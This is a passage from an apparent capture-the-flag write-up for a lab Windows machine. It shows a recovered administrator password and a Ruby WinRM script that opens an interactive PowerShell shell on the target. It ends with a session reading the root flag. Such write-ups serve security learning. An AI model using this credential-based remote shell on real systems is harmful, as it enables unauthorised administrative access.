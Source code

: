 ```
```

Password: `MyUnclesAreMarioAndLuigi!!1!`

Using Alamot's WinRM ruby script, I was able to log in as `administrator`:

```ruby
require 'winrm'

# Author: Alamot

conn = WinRM::Connection.new(
  endpoint: 'http://10.10.10.125:5985/wsman',
  user: 'querier\administrator',
  password: 'MyUnclesAreMarioAndLuigi!!1!',
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end
    puts "Exiting with code #{output.exitcode}"
end
```

```
# ruby querier.rb
PS querier\administrator@QUERIER Documents> whoami
querier\administrator
PS querier\administrator@QUERIER Documents> type c:\users\administrator\desktop\root.txt
b19c37...
```
